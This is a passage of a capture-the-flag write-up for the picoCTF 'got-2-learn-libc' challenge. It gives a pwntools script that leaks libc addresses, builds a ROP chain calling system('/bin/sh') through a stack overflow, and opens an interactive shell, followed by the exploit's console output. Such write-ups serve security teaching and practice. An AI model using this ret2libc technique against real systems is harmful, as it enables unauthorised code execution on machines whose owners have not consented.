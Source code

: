 ```python
addr_read = int(re.search("read: 0x([0-9a-f]+)", output, re.MULTILINE).group(1), 16)
log.info("Address of read(): {}".format(hex(addr_read)))

libc_base = addr_read - libc.symbols["read"]
log.info("libc base: {}".format(hex(libc_base)))

#Rebase libc
libc.address = libc_base

#Not needed since libc was rebased: system_addr = p32(libc_base + libc.symbols["system"])
system_addr = libc.symbols["system"]
log.info("Address of system(): {}".format(hex(libc.symbols["system"])))

r = ROP(libc)
r.system(binsh)

print r.dump()

payload = fit({offset: str(r)})

p.sendline(payload)
p.interactive()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/got-2-learn-libc# python exploit.py --ssh_user $pico_ssh_user
[+] Starting local process './vuln': pid 4036
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 4036)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/got-2-learn-libc/core.4036'
    Arch:      i386-32-little
    EIP:       0x62616170
    ESP:       0xff8a2090
    Exe:       '/media/sf_CTFs/pico/got-2-learn-libc/vuln' (0x565ce000)
    Fault:     0x62616170
[*] Overflow offset: 160
[*] '/media/sf_CTFs/pico/got-2-learn-libc/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/media/sf_CTFs/pico/got-2-learn-libc/libc6-i386_2.23-0ubuntu10_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Connecting to 2018shell3.picoctf.com on port 22: Done
[*] user@2018shell3.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/problems/got-2-learn-libc_0_4c2b153da9980f0b2d12a128ff19dc3f/vuln' on 2018shell3.picoctf.com: pid 543269
[*] Address of /bin/sh: 0x56640030
[*] Address of read(): 0xf7641350
[*] libc base: 0xf756d000
[*] Address of system(): 0xf75a7940
[*] Loaded cached gadgets for './libc6-i386_2.23-0ubuntu10_amd64.so'
0x0000:       0xf75a7940 system(0x56640030)
```